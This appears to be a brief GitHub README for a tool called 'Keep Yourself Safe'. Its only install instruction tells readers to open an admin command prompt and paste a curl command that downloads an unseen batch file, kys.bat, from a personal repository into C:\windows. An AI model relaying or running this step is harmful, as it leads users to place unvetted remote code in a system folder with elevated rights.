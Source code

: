 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

` curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat `

